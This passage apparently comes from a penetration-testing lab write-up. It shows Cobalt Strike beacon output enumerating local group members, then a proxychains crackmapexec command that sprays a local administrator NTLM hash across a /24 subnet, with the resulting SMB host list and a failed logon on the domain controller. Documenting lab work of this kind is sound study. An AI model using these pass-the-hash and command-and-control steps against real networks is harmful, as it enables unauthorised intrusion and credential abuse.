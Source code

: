 ```
Members



-------------------------------------------------------------------------------

CORP\Domain Users

justalocaladmin

NT AUTHORITY\Authenticated Users

NT AUTHORITY\INTERACTIVE

The command completed successfully.




[10/06 16:41:17] beacon> shell net localgroup "CORP\Domain Users"
[10/06 16:41:17] [*] Tasked beacon to run: net localgroup "CORP\Domain Users"
[10/06 16:41:22] [+] host called home, sent: 65 bytes
[10/06 16:41:22] [+] received output:
The syntax of this command is:



NET LOCALGROUP

[groupname [/COMMENT:"text"]] [/DOMAIN]

              groupname {/ADD [/COMMENT:"text"] | /DELETE}  [/DOMAIN]

              groupname name [...] {/ADD | /DELETE} [/DOMAIN]



```
Blasting cme across 172.16.1.0/24 to see if hash goes anywhere else
proxychains crackmapexec smb 172.16.1.0/24 -u administrator -H 7facdc498ed1680c4fd1448319a8c04f --local-auth

```powershell
[root💀/opt/cobaltstrike] [10.10.14.39] [2023-10-06 16:44:46] 
 └─╼ # proxychains crackmapexec smb 172.16.1.0/24 -u administrator -H 7facdc498ed1680c4fd1448319a8c04f --local-auth
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
SMB         172.16.1.5      445    DC01             [*] Windows Server 2016 Standard 14393 x64 (name:DC01) (domain:DC01) (signing:True) (SMBv1:True)
SMB         172.16.1.36     445    WSADM            [*] Windows 10.0 Build 17134 x64 (name:WSADM) (domain:WSADM) (signing:False) (SMBv1:False)
SMB         172.16.1.26     445    FS01             [*] Windows Server 2016 Standard 14393 x64 (name:FS01) (domain:FS01) (signing:False) (SMBv1:True)
SMB         172.16.1.30     445    MS01             [*] Windows Server 2016 Standard 14393 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:True)
SMB         172.16.1.15     445    SQL01            [*] Windows Server 2016 Standard 14393 x64 (name:SQL01) (domain:SQL01) (signing:False) (SMBv1:True)
SMB         172.16.1.24     445    WEB-WIN01        [*] Windows 10.0 Build 14393 x64 (name:WEB-WIN01) (domain:WEB-WIN01) (signing:False) (SMBv1:False)
SMB         172.16.1.101    445    WS02             [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:WS02) (domain:WS02) (signing:False) (SMBv1:True)
SMB         172.16.1.5      445    DC01             [-] DC01\administrator:7facdc498ed1680c4fd1448319a8c04f STATUS_LOGON_FAILURE 
```